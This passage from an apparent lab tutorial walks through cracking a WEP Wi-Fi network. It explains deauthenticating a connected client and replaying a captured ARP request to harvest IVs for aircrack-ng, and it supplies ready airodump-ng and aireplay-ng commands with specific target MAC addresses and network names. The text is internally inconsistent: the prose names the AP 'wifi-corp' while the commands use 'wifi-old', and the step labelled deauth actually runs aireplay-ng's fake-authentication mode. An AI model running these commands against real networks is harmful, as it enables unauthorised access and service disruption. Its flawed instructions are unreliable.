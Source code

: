 Now we are ready to **Capture the Handshake**, in particular we will capture an **authentication handshake frame**.

---

## Start the Attack

For WEP we will do a deauthentication attack plus ARP injection.

Let's see why

### Deauth Attack
Here we send deauth frames to a connected client. This forces the client to disconnect and reconnect to the WEP network.

Upon reconnection, there's a high chance the client will send an **ARP request** to the access point — **this** is the perfect packet to capture.

### Capture ARP + Start Injection
Once the ARP request is captured, tools like `aireplay-ng -3` can replay it repeatedly, causing the AP to send out tons of encrypted responses — each using **a new IV** (Initialization Vector).

This allows you to accumulate enough IVs quickly for aircrack-ng to recover the WEP key via statistical analysis.

In terminal 1 tab let's start sniffing specifically on AP ‘wifi-corp’ and dump the output in a capture file.

```bash
⚠️ mkdir WEP

⚠️ channel=3
⚠️ bssid='F0:9F:C2:71:22:11'
⚠️ essid='wifi-old'
⚠️ client='3E:C8:44:0A:24:BA'

⚠️ sudo airodump-ng -c ${channel}  -w dump-wep --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```

---

Now deauth the client!

## 💣 De-AUTH

In a second terminal tab send a deauthentication frame. 

In that case the connected client will try to re-authenticate again during our capture.


```bash
⚠️ bssid='F0:9F:C2:71:22:11'
⚠️ essid='wifi-old'
⚠️ client='3E:C8:44:0A:24:BA'

⚠️ sudo aireplay-ng -1 3600 -q 10 -a ${bssid} -e ${essid} -c ${client} wlan0mon
```
This forces a client to reconnect and trigger ARP traffic.
